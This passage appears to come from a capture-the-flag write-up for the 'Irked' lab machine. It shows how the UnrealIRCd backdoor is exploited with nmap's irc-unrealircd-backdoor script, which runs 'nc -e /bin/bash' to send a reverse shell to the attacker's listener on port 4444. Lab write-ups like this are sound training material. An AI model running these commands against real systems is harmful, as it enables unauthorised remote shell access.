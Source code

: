 It seems like port 6697 and 8067 might be vulnerable to this vulnerability.

To use the exploit, we first set up a listener:

```bash
nc -nvlp 4444
```

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%206.png)

We can then try to send a reverse shell using the first port:

```bash
nmap -p 6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.17.90 4444"  $IP
```

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%207.png)

However, we do not seem to have any luck with the first port. Trying the second port:

```bash
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.17.90 4444"  $IP
```

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%208.png)

This port seems to have worked and we have have a reverse shell on our listener:

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%209.png)
